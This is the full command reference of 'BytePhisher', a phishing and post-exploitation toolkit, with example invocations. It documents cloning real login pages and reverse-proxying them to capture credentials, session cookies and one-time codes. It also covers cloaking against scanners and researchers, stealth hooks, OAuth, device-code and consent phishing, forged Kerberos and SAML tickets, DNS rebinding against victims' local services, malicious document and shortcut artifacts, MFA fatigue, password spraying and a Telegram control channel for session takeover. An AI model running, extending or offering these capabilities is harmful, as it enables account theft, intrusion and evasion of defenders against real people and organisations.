

# CLI reference

Complete command reference for BytePhisher 0.1.0. Every flag the binary defines is here,
grouped by function, next to the commands that drive the three ways to run it. The deeper
operator surfaces (control channel, chains, filtering, panic) also live in
[OPERATIONS.md](OPERATIONS.md).



## 0. Invocation

```bash
git clone <repo> bytephisher && cd bytephisher
make install            # venv + deps (808 templates ship in the repo)
./.venv/bin/python bytephisher.py --list | head
```

Serving mode starts a listener, brings up the tunnels named with `-t`, opens the capture
store and (on a TTY) the live dashboard. Read-only commands (`--list`, `--sessions`,
`--chains`, `--access-plan`, `--doctor`, `--capabilities`, ...) act on the store or the
tree and exit with no server.

## 1. Serving and campaign gating

Server, tunnel, TLS, hook paths, the gating rules and the pre-serve challenge.

| Flag | Description |
|---|---|
| `-o, --option` | template index (see --list) or slug (google, instagram, ...) |
| `-t, --tunneler` | cloudflared\|localhost_run\|bore\|pinggy\|ngrok\|all\|none |
| `-u, --url` | redirect URL after capture |
| `-p, --port` | local port (default 8080) |
| `-m, --mode` | normal = tunnels up; test = local only |
| `--otp` | serve OTP page after credential submit |
| `--tls` | serve HTTPS (needs --cert) |
| `--cert` | PEM cert (+key at same path with 'key' in name) |
| `--geo` | geo provider |
| `--list` | list templates and exit |
| `--tunnels` | list tunnelers and exit |
| `--verify-brand` | brand to show on the pre-serve interstitial (default: none - the page is deliberately brand-neutral) |
| `--verify-first` | pre-serve human challenge: a first visit gets a small brand-neutral interstitial instead of the page, and only a visitor that interacts and passes the passive tells gets a signed token for the real page (proxy mode; a scanner that runs no JS, or runs it without interacting, never sees it) |
| `--verify-ttl` | how long a passed challenge stays valid (default 900) |
| `--symbols` | cookie and data-attribute names: 'fixed' keeps the historical __bhs/__bhi/data-* (tooling and runbooks rely on them), 'random' derives a fresh set per campaign so one fingerprint does not cover every campaign (tools/campaign.sh uses random) |
| `--hook-stealth` | make the injected hook's patched fetch/XHR look native: Function.prototype.toString reports '[native code]' and the wrapper's name/arity/descriptor match the original (on by default - a wrapped builtin is how an integrity script catches the hook) |
| `--no-hook-stealth` | leave the wrappers exposed (only for debugging the hook) |
| `--bot-gate` | serve the decoy when a visit's fingerprint scores at or above SCORE (0 = off). Score comes from JA3 + user agent + browser dump |
| `--scanners` | list visits the bot gate refused, with the evidence, and exit |
| `--allow-asn` | only serve these autonomous systems (fail-closed: no ASN data means no service) |
| `--block-asn` | refuse these autonomous systems (a hosting ASN is a scanner tell even when the country and ISP look clean) |
| `--max-hits-per-device` | cap requests per DEVICE (the collector's device token), not per IP: a NAT'd office is many victims behind one address |
| `--cohorts` | cohort table (JSON: [{name,weight,variant,pretext,locale}]) for an A/B split; the assignment is a hash of the target, so a target always sees the same page |
| `--ab-summary` | group the captured sessions by lure and report the click and credential rate per arm (from the database, not from the plan) |
| `--detonation-asn` | refuse these autonomous systems as sandbox/detonation ranges (operator-supplied: the vendor ranges move, so a hardcoded list would be a guess) |
| `--detonation-cidr` | refuse these networks as sandbox/detonation ranges |
| `--cloak` | one switch for the whole cloaking posture: refuse researcher networks, and never show our page to a detonation range |
| `--block-researchers` | refuse security vendors, cloud scanners, anonymising networks and scanner user agents outright (decoy), instead of only scoring them |
| `--server-header` | the Server header on our own responses (default nginx). An empty value omits it entirely; in proxy mode the upstream's own Server/Date are relayed and this is only the fallback. BaseHTTPRequestHandler's default advertises the Python version, which is a one- line scanner rule |
| `--hook-path` | base path for the collector and hook routes (default /__bh). A fixed path is a signature: move it per campaign, e.g. --hook-path /assets/v2/x7f3 |
| `--blocklist-file` | extra blocklist, one entry per line (default data/blocklist.txt when it exists): 'name' = organisation keyword, 'ua:x', 'ip:x', 'net:x/y' |
| `--decoy-mode` | what a scanner/non-target sees: real (mirror the upstream), page (static decoy), url (redirect to --decoy) |
| `--no-trust-headers` | ignore CF-Connecting-IP / X-Forwarded-For and use the socket IP (use when the server is exposed directly: those headers are spoofable and bypass gating) |
| `--allow-country` | only serve visitors from these ISO country codes (e.g. IN,US) |
| `--block-country` | never serve visitors from these country codes |
| `--block-datacenter` | refuse hosting/datacenter ASNs (kills most scanners) |
| `--active-hours` | only serve between these local hours, e.g. 9-18 |
| `--active-days` | only serve on these weekdays, e.g. mon-fri or mon,wed,fri |
| `--max-hits` | refuse an IP after N hits per hour (0 = unlimited) |
| `--decoy` | where gated-out visitors go (default: inert 503 page) |
| `--tunnel-restart` | if a tunneler dies mid-campaign, bring it back automatically (max 5 restarts each) and print the new public URL |
| `--version` | show program's version number and exit |

Pick a template, then decide how it is exposed:

```bash
./.venv/bin/python bytephisher.py --list           # numbered 1..808
./.venv/bin/python bytephisher.py -o 3             # by index
./.venv/bin/python bytephisher.py -o google        # by slug
```

| Mode | Flag | When |
|---|---|---|
| Local only | `-m test` | dry runs, screenshots, internal demo |
| Cloudflare quick tunnel | `-t cloudflared` | fastest public HTTPS link (auto-downloads the binary) |
| localhost.run | `-t localhost_run` | no account, ssh only |
| bore | `-t bore` | plain HTTP fallback, auto-downloads the binary |
| all of them | `-t all` | prints every link that came up; dead services are reported, not hidden |

```bash
./.venv/bin/python bytephisher.py -o google -t cloudflared --geo ipapi --otp
```

A real run prints the template, the listener and the public URLs:

```

[bytephisher] template : Google
[bytephisher] server up on 0.0.0.0:8080
[bytephisher] public URLs:
   cloudflared    https://<random>.trycloudflare.com

```

Keep the scanners out:

```bash
./.venv/bin/python bytephisher.py --block-researchers     # built-in lists
./.venv/bin/python bytephisher.py --blocklist-file my-list.txt
./.venv/bin/python bytephisher.py --hook-path /assets/v2/x7f3
```

`--block-researchers` refuses security vendors, cloud/hosting ranges, commercial VPNs and
Tor, scanner user agents and the published scanning ranges. The refusal is recorded with
the match (`known scanning range (censys, 162.142.125.0/24)`), so a false positive is
diagnosable. A scanner that does get through receives the decoy: the upstream page, with
no collector and no session cookie of ours. `--hook-path` moves the collector and hook
routes and the injected tag together - one value, so the page and the routes cannot
disagree.

## 2. Reverse proxy and phishlets

Proxy mode is the second way to run the tool: the real site stays live, the hook is
injected into the responses, and credentials, tokens and cookies are captured on the wire.

| Flag | Description |
|---|---|
| `--no-impersonate` | do NOT shape the upstream leg like a browser (the loudest signal on the wire - only for a target that chokes on it) |
| `--proxy` | run in reverse-proxy mode: proxy the REAL site and inject the capture hook (needs --phishlet or --upstream) |
| `--phishlet` | phishlet definition file for --proxy |
| `--upstream` | target host to proxy (inline phishlet, no YAML needed) |
| `--proxy-scheme` | scheme used to reach the upstream (default https) |
| `--login-path` | login path on the upstream |
| `--capture-cookies` | cookie names to harvest (comma separated, * = all) |
| `--inject-paths` | regexes of paths that get the hook (comma separated) |
| `--oauth` | OAuth consent/authorization-code relay (microsoft/google/okta/github/custom): the victim's browser goes to the REAL provider and the code comes back here - no lookalike login page |
| `--oauth-client-id` | the public client id registered with the redirect URI below |
| `--oauth-tenant` | tenant id/subdomain, or the base URL for `custom` |
| `--oauth-scope` | space-separated scopes (default: the provider's own set) |
| `--oauth-redirect` | override the redirect URI (default: this campaign's callback) |
| `--intercept` | answer PATH locally from FILE instead of forwarding it (repeatable): a telemetry endpoint never sees our page, and content we cannot rewrite stops breaking the page |
| `--intercept-body` | same as --intercept but with an inline body |
| `--block-paths` | regexes of paths never touched (comma separated) |
| `--no-verify-tls` | do not verify the upstream TLS certificate |
| `--phishlet-create` | analyse a login page and write a ready phishlet, then exit |
| `--phishlet-out` | where to write the forged phishlet (default: config/phishlets/<name>.yaml) |
| `--phishlet-name` | name for the forged phishlet |
| `--forge-snapshot` | forge from a saved snapshot instead of live traffic |
| `--impersonate` | make the UPSTREAM leg look like a real browser: the ClientHello, header order and HTTP settings of chrome, firefox135, safari180, edge101 ... (needs curl_cffi). Without it the upstream sees a Python TLS client while (default: chrome when curl_cffi is installed; --no- impersonate opts out) the victim's browser sits behind you, which is the mismatch Cloudflare/Akamai/PerimeterX score |

```bash
./.venv/bin/python bytephisher.py --proxy --upstream login.example.com \
    --telegram "TOKEN:CHAT_ID" --telegram-c2
```

## 3. Harvest and device intelligence

Every visitor's browser reports its full profile on page open, before any submit.

| Flag | Description |
|---|---|
| `--inbox` | read replies over IMAP, classify them, and print the follow-up the pretext scripts (needs --inbox- host/--inbox-user; the password comes from BYTEPHISHER_INBOX_PASS) |
| `--inbox-host` | IMAP host for --inbox |
| `--inbox-user` | IMAP user for --inbox |
| `--inbox-folder` | IMAP folder for --inbox (default INBOX) |
| `--inbox-limit` | how many recent messages to read (default 50) |
| `--locale` | locale for the --inbox follow-up script suggestions (e.g. en, de, fr; default en) |
| `--no-intel` | disable the deep device dump collected on page open |
| `--intel-perms` | also fire permission-gated probes (geolocation, clipboard, notifications, USB/serial/HID) on the first user gesture |
| `--intel-dump` | print the full device dump for a session and exit |
| `--intel-list` | list collected device dumps and exit |
| `--intel-export` | write every device dump to a JSON file and exit |

```bash
./.venv/bin/python bytephisher.py --intel-list            # who, with bot/VPN scores
./.venv/bin/python bytephisher.py --intel-dump latest     # full profile
./.venv/bin/python bytephisher.py --intel-export data/devices.json
```

The dump is the same data the capture store holds, so it lands in the JSON export
(`devices`) and in the alerts alongside credentials.

## 4. Identity and token

Identity relay and post-authentication paths: device-code and OAuth relays, the AD
attacks, the posture reports, consent phishing and the SAML/federation forge.

| Flag | Description |
|---|---|
| `--devicecode` | device-authorization mode (RFC 8628): hand the victim a code and the REAL provider page - no lookalike domain. providers: microsoft, microsoft-graph, google, okta, github, custom (see core/devicecode.py) |
| `--dc-client-id` | public client id of YOUR app with the device-code flow enabled (required with --devicecode; a guessed id fails) |
| `--dc-tenant` | tenant for microsoft/okta (default: the provider's) |
| `--dc-scope` | override the provider's default scope |
| `--dc-brand` | title on the landing page (default: Account) |
| `--dc-base` | public base URL of the landing (default: the tunnel URL) |
| `--pkinit-plan` | PKINIT: the step that turns an ESC8 certificate into a TGT (needs the certificate AND its private key, because the KDC verifies a signature) |
| `--pkinit-realm` | realm for --pkinit-plan / --shadow-plan |
| `--shadow-plan` | shadow credentials: write a key credential into an object's msDS-KeyCredentialLink, then authenticate with PKINIT as that account |
| `--shadow-target` | the object to write the credential onto (--shadow- plan) |
| `--shadow-write` | actually add the credential to this DN through --ldap (needs --ldap-user/--ldap-pass with write access to that attribute) |
| `--shadow-remove` | remove a credential value (the clean-up path) |
| `--golden-plan` | Golden Ticket: a TGT forged with the krbtgt key, for any user and any group (the AD rung that matches Golden SAML) |
| `--golden-forge` | forge the ticket (needs --krbtgt-hash, --golden-sid and --realm) and write the kirbi + ccache to --out |
| `--krbtgt-hash` | the krbtgt RC4 key (the account's NT hash) for --golden-forge |
| `--golden-sid` | the domain SID (S-1-5-21-...) for --golden-forge |
| `--golden-user` | the account to forge for (default Administrator) |
| `--golden-rid` | the RID to put in the PAC (500 = the built-in Administrator) |
| `--golden-groups` | group SIDs for the PAC (e.g. the domain SID + -512 for Domain Admins) |
| `--kerberos-plan` | Kerberos roasting: what the KDC hands out, the hashcat mode for each etype, and the limits (preauth off for AS-REP, etype 23 downgrade) |
| `--roast` | ask the KDC for one account's crackable blob (needs --realm; add --roast-spn for Kerberoasting). The LDAP query says who is worth asking: --ldap-query asrep\|kerberoast |
| `--realm` | the Kerberos realm (e.g. CONTOSO.TEST) |
| `--roast-spn` | an SPN to request a service ticket for (e.g. MSSQLSvc/sql:1433) |
| `--kdc` | the KDC to ask (default: the realm name) |
| `--ldap` | query a directory over LDAP: the questions the AD attacks ask (no-preauth accounts, SPNs, certificate templates, CA flags) |
| `--ldap-port` | 389 |
| `--ldap-user` | bind DN (empty = anonymous, which most DCs refuse) |
| `--ldap-pass` | bind password |
| `--ldap-base` | search base (default: the root DSE's defaultNamingContext) |
| `--ldap-query` | what to ask: asrep (no preauth), kerberoast (SPNs), templates (certificate templates), cas (CAs + flags), shadow, domain (lockout policy), rootdse |
| `--ldap-filter` | a raw RFC 4515 filter (overrides --ldap-query) |
| `--ad-hunt` | hunt the directory for LAPS passwords, GPP cpassword, gMSA readers, delegation rights and passwords left in description/info (needs --ldap) |
| `--adcs-esc` | analyse certificate templates for the ESC conditions: a JSON dump (from --ldap-query templates), or "ldap" to read them live |
| `--relay-plan` | the ESC8 chain: probe the CA, coerce the victim, relay its NTLM, take the certificate (NTLM over HTTP has no channel binding, so an auth meant for the CA is indistinguishable from one that reached it) |
| `--relay-start` | run the relay: the listener holds one authentication open and forwards it, and the target's answer goes back to the client |
| `--relay-listen` | the relay's port (80 is the one WebClient uses) |
| `--coerce-plan` | how the victim's machine ends up authenticating to the relay: an RPC coercion, a document that resolves a UNC path, or the campaign itself |
| `--token-keepalive` | keep a stored session's refresh token warm: rotate it on a schedule so it never dies from inactivity, and every rotation consumes the old one |
| `--keepalive-interval` | rotation interval for --keepalive (1800) |
| `--fatigue-plan` | MFA fatigue: the pacing, the jitter, the rotating user agent - and the fact that number matching defeats it outright |
| `--spray-plan` | lockout-aware spraying: one password across many accounts, never reaching any account's threshold |
| `--spray-users` | user list for --spray-plan (one per line, or a csv's first column) |
| `--spray-threshold` | the tenant's lockout threshold (the budget becomes N-1) |
| `--consent-plan` | consent phishing: send the victim to the provider's REAL consent screen so they approve your app themselves - no administrator needed, and the grant survives their password change |
| `--consent-client` | your app's client id for --consent-plan |
| `--consent-redirect` | the redirect URI registered on that app |
| `--consent-scopes` | delegated scopes to ask for (default: offline_access + Mail.Read + Files.ReadWrite.All) |
| `--consent-tenant` | tenant or domain for the consent URL (default common) |
| `--app-consent-plan` | the app-only persistence path: register an app, attach permissions, grant consent, mint a client-credentials token - the credential that has no user behind it (nothing a session revocation can touch) |
| `--app-consent-scopes` | application permissions for --app-consent-plan (e.g. Mail.Read,Directory.ReadWrite.All) |
| `--saml-plan` | the Golden SAML steps: the signing key, the assertion, the ACS POST - and the detection that actually works (the IdP's own logs) |
| `--saml-assert` | build a SAML assertion for a subject (needs --saml- issuer and --saml-audience); it is written UNSIGNED unless --saml-key is given, because an unsigned assertion is not a forged one |
| `--saml-issuer` | the IdP entity id for --saml-assert |
| `--saml-audience` | the relying party entity id for --saml-assert |
| `--saml-role` | a role to put in the assertion's role claim (repeatable by comma) |
| `--saml-key` | the IdP's token-signing private key: without it the assertion is unsigned and every relying party will reject it |
| `--saml-cert` | base64 DER of the signing certificate (goes in KeyInfo) |
| `--saml-out` | write the assertion here (default: print it) |
| `--federation-plan` | the three steps that make a tenant trust an IdP you control, with what each needs and what the audit log will show |
| `--federation-set` | set a domain's federation to your issuer with the captured session's token (needs --federation-domain, --federation-issuer and --federation-cert; this is an audited Graph call) |
| `--federation-domain` | the domain to federate (--federation-set) |
| `--federation-issuer` | the SAML endpoint the tenant will POST to (--federation-set) |
| `--federation-cert` | base64 DER of the certificate whose key signs the assertions |
| `--adcs-probe` | what a CA's enrolment endpoint offers from the outside: NTLM (the ESC8 precondition), an anonymous template read, and the ESC findings that are NOT visible from a plain HTTP request |
| `--tier0` | posture report for a stored session: which root-of- trust path its identity opens (federation, PKI, sync account, IdP key) |
| `--replayability` | can this stored session be replayed elsewhere? (device-bound and CAE claims decide it, and 'unknown' is not 'replayable') |
| `--prt-plan` | PRT posture from a JSON file with keys tokens/claims/tenant_policy: what the tenant would accept before a phantom device registration is attempted |
| `--consentfix` | build the silent (prompt=none) and interactive consent URLs for a provider: microsoft\|google\|okta\|github\|custom |
| `--consentfix-tenant` | tenant/domain for --consentfix (custom providers need it) |
| `--consentfix-client` | client id for --consentfix |

## 5. Delivery

Lures, QR and PWA re-delivery, pretexts, lookalike and sender preflight, and the SMTP
mailer. These are the channels that carry the link.

| Flag | Description |
|---|---|
| `--lure-create` | create a tracked lure for a campaign and exit |
| `--lure-kind` | lure type: link \| fragment (token in #) \| one-time |
| `--lure-label` | who this lure is for (target email/name) - for attribution |
| `--lure-max-uses` | burn the lure after N opens (0 = unlimited) |
| `--lures` | list lures and exit |
| `--pwa` | serve an installable page: a manifest plus the worker the collector already ships, so the icon reopens the lure with no new message (needs HTTPS for the browser to offer it) |
| `--pwa-name` | the name the home-screen icon shows (default: the campaign name) |
| `--clickfix-command` | the command the ClickFix page copies (the payload is the operator's; the page and the beacon are this tool's) |
| `--clickfix-platform` | which steps the page shows |
| `--clickfix-out` | write the ClickFix page here (default: print the path only) |
| `--pretext` | message story to use for the mail (see --pretext- list): it brings its own subject, body, required fields and follow-up script |
| `--lookalike` | print lookalike domain candidates for a brand (swaps, omissions, prefix/suffix, TLDs, IDN homoglyphs) with a plausibility score |
| `--sender-check` | preflight a sending domain from DNS alone: A/MX, SPF, DKIM selectors, DMARC policy, and whether others can spoof it |
| `--pretext-list` | list the available pretexts with their roles and fields |
| `--targets` | target list (csv/tsv/json): the served page is pre- filled with the matched target's own address and the mail is written per target |
| `--mailto` | after tunnels are up, email the phish link via SMTP |
| `--mail-template` | which email template to use for --mailto |
| `--mail-from-name` | display name on the From header (a bare address reads as bulk mail) |
| `--mail-reply-to` | Reply-To for the message: an answer lands where the operator can read it instead of a no-reply address |
| `--mail-to-name` | display name on the To header ({{To_FirstName}} is used when empty) |
| `--mail-thread` | put the message inside an existing thread (sets In- Reply-To and References to this Message-ID) |
| `--mail-qr` | embed the lure URL as an inline QR image (the mail- side quishing payload: the URL is never in the body text) |
| `--mail-ics` | attach a calendar invite whose URL/LOCATION is the lure |
| `--mail-attach` | attach files (the mime type is derived from the extension) |
| `--mail-pacing` | seconds between messages, e.g. 20-90: a burst from a fresh domain is a rate-based block, and the jitter hides the pattern |
| `--campaign` | tag this session's captures with a campaign name (default: the template slug) |
| `--rotate` | serve a random one of these templates per request (comma-separated slugs) - A/B style campaigns |

```bash
# spear-phishing email with the live link (SMTP from config/config.yaml)
... --mailto target@client.example --mail-template security_alert

# instant pings for every capture
... --telegram "BOT_TOKEN:CHAT_ID" --webhook https://discord.com/api/webhooks/...

# campaign hygiene
... --campaign q3-payroll       # tag every capture so campaigns share one database
... --rotate google,instagram   # serve a random template per request (A/B test the lure)
```

## 6. Operator surface

Dashboards, alerts, the Telegram control channel, housekeeping and the stop/wipe paths.

| Flag | Description |
|---|---|
| `--web-dashboard` | start Flask dashboard on :8090 |
| `--web-port` | web dashboard port |
| `--export` | export captures (.json -> JSON, anything else -> CSV) and exit |
| `--reuse` | show credential-reuse findings (repeated identities/passwords) across the database and exit |
| `--resume-hours` | on startup, restore sessions that were active in the last H hours so a restart does not orphan a victim mid-session (default 12; 0 disables) |
| `--panic` | stop serving now and keep the data (console equivalent of the control channel's /panic) |
| `--kill` | stop and WIPE every capture, session, intel row and lure (needs --yes) |
| `--yes` | confirm a destructive flag |
| `--telegram-c2` | turn the Telegram bot into a control channel: /stats, /sessions, /session SID, /live SID, /otp SID, /takeover SID, /lures, /block IP (needs --telegram TOKEN:CHAT_ID) |
| `--live-purge` | delete one session's live keystroke/field stream and exit |
| `--keep-days` | on start, drop live-input rows older than DAYS (every keystroke beacon is a row, so a long campaign accumulates them) |
| `--api-token` | require this token on the dashboard API (?token= or X-Api-Token). The API serves captured credentials: bind it publicly without a token and anyone who finds the port has them |
| `--no-tui` | print captures, no live TUI |
| `--telegram` | send every capture to a Telegram bot chat |
| `--webhook` | POST every capture as JSON to this URL (Discord/Slack/n8n) |

Watch it live:

```bash
# rich dashboard in the terminal (default when stdout is a TTY)
./.venv/bin/python bytephisher.py -o google -t cloudflared

# plain refresher for logs / systemd / tmux capture
./.venv/bin/python bytephisher.py -o google -t cloudflared --no-tui

# remote/mobile: Flask dashboard + JSON API
./.venv/bin/python bytephisher.py -o google -t cloudflared --web-dashboard --web-port 8090
curl -s localhost:8090/api/stats
curl -s 'localhost:8090/api/captures?limit=5&campaign=q3-payroll'
```

Drive the campaign from the chat (`--telegram-c2` turns the bot into a control channel):

| Command | Result |
|---|---|
| `/stats` | captures, credentials (and credible), visitors, sessions |
| `/sessions` | newest sessions with state, geo and credential names |
| `/session abc123` | credentials, tokens, cookies, timeline |
| `/live abc123` | what is being typed, latest value per field |
| `/otp abc123` | the input seen, in order, with timings |
| `/takeover abc123` | run the session's takeover task |
| `/lures` | which lure was opened, how often, converted |
| `/block 1.2.3.4` / `/unblock 1.2.3.4` | edit the blocklist |

Alerts arrive with buttons: Takeover, Live, Session, Block IP (and Show codes on an OTP
alert), so the follow-up is a tap. A streamed one-time code does not need the operator at
all: if the session has a pending credential POST, the proxy replays it upstream with the
code and the session is captured the moment the site accepts it.

Housekeeping and export:

```bash
./.venv/bin/python bytephisher.py --keep-days 7 --sessions   # prune old live input
./.venv/bin/python bytephisher.py --live-purge <sid>         # drop one session's stream
./.venv/bin/python bytephisher.py --export data/captures.csv # CSV, risk column included
./.venv/bin/python bytephisher.py --export data/captures.json --campaign q3-payroll
./.venv/bin/python bytephisher.py --reuse                     # credential-reuse findings
```

Every keystroke beacon is a row in `live_input`, so a long campaign accumulates them;
`--keep-days` runs whenever the store is opened. The JSON export carries the full dump
(stats, campaigns and every capture with its risk score and reasons); anything not ending
in `.json` is written as CSV. `Ctrl+C` prints the session summary and terminates every
tunneler it started:

```

  runtime            : 12m 4s
  total captures     : 37
  credential captures: 11
  unique visitors    : 64
  public urls: cloudflared https://<random>.trycloudflare.com
  tunnels stopped    : 1

```

## 7. Sessions and chains

Session inspection, takeover tasks, live-session operations and post-exploitation chains.

| Flag | Description |
|---|---|
| `--sessions` | list captured sessions (cookies, creds, state) and exit |
| `--session` | full dump of one session and exit |
| `--session-export` | export a session as Cookie-Editor JSON (importable in a browser) |
| `--session-import` | import a Cookie-Editor JSON export as a session and exit |
| `--validate` | check whether a captured session is still alive |
| `--takeover` | run a task against a captured session (real Chrome) |
| `--task` | task name or YAML/JSON file (see --tasks) |
| `--out` | output directory for --takeover |
| `--tasks` | list built-in takeover tasks |
| `--replay` | serve the run from a saved snapshot (JSON: path -> response) instead of live traffic - build tasks offline, or work on a box with no network access |
| `--auto-chain` | run this chain automatically the moment a session is captured (hands-free post-exploitation; see --chains) |
| `--chains` | list the post-exploitation chains and exit |
| `--run-chain` | run a chain against a captured session (see --chains) |
| `--chain-name` | which chain --run-chain runs (default recon; same as SID:NAME) |
| `--chain-json` | write the chain result (tasks, findings, errors) as JSON |
| `--validate-creds` | replay a captured session's credentials at the real login URL |
| `--user-field` | username field name (--validate-creds) |
| `--pass-field` | password field name (--validate-creds) |
| `--keepalive` | keep a captured session alive by polling an authenticated URL |
| `--interval` | seconds between keepalive polls (default 300) |
| `--iterations` | keepalive polls to perform (default 12) |

```bash
./.venv/bin/python bytephisher.py --chains
./.venv/bin/python bytephisher.py --run-chain <sid>:full --chain-json out.json
```

A chain drives a real browser against the captured session and reports per task (see
[OPERATIONS.md](OPERATIONS.md)). The keyword hunt turns the mailbox into findings with the
line each term came from.

## 8. Pool and redirectors

Hostname pool rotation, open-redirect hops and the heartbeat watchdog.

| Flag | Description |
|---|---|
| `--heartbeat-file` | write a heartbeat while serving (and check it with --heartbeat-check) |
| `--heartbeat-window` | how long a heartbeat may go unheard before it is stale (600) |
| `--heartbeat-check` | check the heartbeat and exit: stale means the campaign has stopped |
| `--pool` | domain/tunnel pool file: rotation state, so a burned hostname is never handed out twice |
| `--pool-add` | add hostnames to the pool (with --pool) and exit |
| `--pool-next` | hand out the next ready hostname (with --pool) and exit |
| `--pool-burn` | burn hostnames (with --pool) and exit: never handed out again |
| `--pool-status` | print the pool (with --pool) and exit |
| `--hop` | wrap the lure URL in open-redirect hops (see core.redirectors for the names); the message then carries a trusted domain, not ours |
| `--verify-chain` | follow a redirect chain with redirects DISABLED and report each hop, whether the destination is hidden, and any dead hop |

## 9. Click-to-access and local services

Access planning, artifact builders, the exploit pack, TOTP, DNS exfil planning, DNS
rebinding and the local-service exploit library.

| Flag | Description |
|---|---|
| `--exploit-ports` | which local services the page attacks once the name has rebound (comma separated; default: the highest- payoff set) |
| `--exploit-limit` | how many services are attempted per page load (default 6) |
| `--exploit-list` | list the local-service exploit library and exit |
| `--router-plan` | print the router takeover plan for a gateway address and exit |
| `--rebind-domain` | run a DNS rebinding responder for DOMAIN: the first answer is your public address (so the page loads), later ones point at --rebind-target, so the victim's browser reads their own local services (router panel, docker api, jupyter, kubelet...) |
| `--rebind-target` | address(es) the name flips to (default 127.0.0.1) |
| `--rebind-public` | your public address for the first answer (default: auto-detect) |
| `--rebind-port` | DNS port (53 needs root; use a high port for a lab) |
| `--rebind-after` | how many queries are answered with the public address first |
| `--rebind-ttl` | answer TTL in seconds (1 makes the flip happen while the page is open) |
| `--access-plan` | rank the access paths this victim allows and exit. FACTS is a JSON object, @file, an OS name, a user agent, or 'latest' for what the newest device dump states |
| `--access-build` | build every artifact the verdict calls for into DIR (writes the files plus manifest.json; set --access- url/--access-payload) |
| `--access-facts` | facts for --access-build/--access-plan (JSON object, @file, an OS name, a user agent, or latest) |
| `--access-url` | public URL of the campaign: what the trigger page and the shortcut point at |
| `--access-payload` | payload URL the stagers fetch |
| `--access-zone` | DNS zone for the exfiltration plan |
| `--artifact` | build one artifact: bash, dnsplan, docm, hta, intranet, js, lnk, lnkcmd, object, pack, ps, sct, url, vba |
| `--artifact-url` | URL the artifact carries (or the payload text for dnsplan) |
| `--artifact-out` | write the artifact here (required for the binary kinds) |
| `--artifact-template` | docm: an existing macro-enabled document to inject the project into (the reliable path) |
| `--artifact-zone` | dnsplan: the zone to build the query names under |
| `--pack-list` | list the shipped exploit pack and exit |
| `--pack-match` | match the pack: browser:VERSION (chrome:91), service:NAME, or os:NAME |
| `--pack-verify` | check which pack payloads are present under DIR |
| `--pack-report` | count the pack entries and how many are verified under DIR |
| `--totp-uri` | parse an otpauth:// URI and print its fields (never the secret) |
| `--totp-code` | print the current code for a base32 secret, plus the window |
| `--totp-at` | evaluate --totp-code/--totp-scan at this unix timestamp |
| `--totp-scan` | search a low-entropy secret space for a code you observed |
| `--totp-space` | dec6, dec8 or b32short (default dec6) |
| `--dnsx-plan` | print the DNS query plan for DATA (needs --access- zone) |
| `--dnsx-encode` | print the query names that carry DATA |
| `--dnsx-decode` | reassemble a payload from comma-separated query names |
| `--capabilities` | list which optional capability modules are importable and exit |

## 10. Tooling and preflight

Diagnostics and preflight checks that do not run a campaign.

| Flag | Description |
|---|---|
| `--doctor` | check this machine can run a campaign (deps, templates, tunnelers, DB) and exit |
| `--lab-check` | run the real-world preflight (tools/lab_check.py) and exit: tenant, domain/TLS, egress, clock, database, and whether a browser can reach a live host on this machine |
| `--lab-domain` | with --lab-check: also check this domain's DNS and TLS |
| `--lab-tunnel` | with --lab-check: also probe this public URL |
| `--domain-age` | RDAP registration age for a domain: a young domain is the filter both major providers apply first |

```bash
# import the target's real SSO portal so the clone is faithful
./.venv/bin/python tools/import_site.py --url https://sso.client.example/login \
        --name "Client SSO" --slug client-sso
# mirrors css/js/images/fonts beside the page (no request from the victim's
# browser to the real CDN), rewrites srcset and the lazy-load attributes,
# follows url() and @import inside stylesheets, strips SRI/CSP/<base>, removes
# beacon scripts, points every form at the capture handler, extracts the real
# field names, injects the honeypot/template id/timing beacon, writes an OTP
# page, writes clone_report.json, and registers a new template index

# a page behind a login, a slow host, or a static clone with no client-side JS
./.venv/bin/python tools/import_site.py --url https://portal.client.example/ \
        --name "Client Portal" --cookie "session=..." --timeout 40 --retries 3
./.venv/bin/python tools/import_site.py --url https://sso.client.example/login \
        --name "Client SSO" --no-js --mirror-limit 200

# verify the build yourself
make test         # full suite incl. live tunnels, SMTP, public-URL round trips
make test-fast    # everything that does not need the internet
make probe        # which tunnelers actually work right now
```

Operational cautions: tunnel URLs are public, so treat the link as a live
credential-harvesting page - short windows, named campaigns, scoped audiences. Captures
land in SQLite with IP, geo, ISP, UA, device and risk; delete `data/` when the engagement
ends unless the client contract says otherwise.
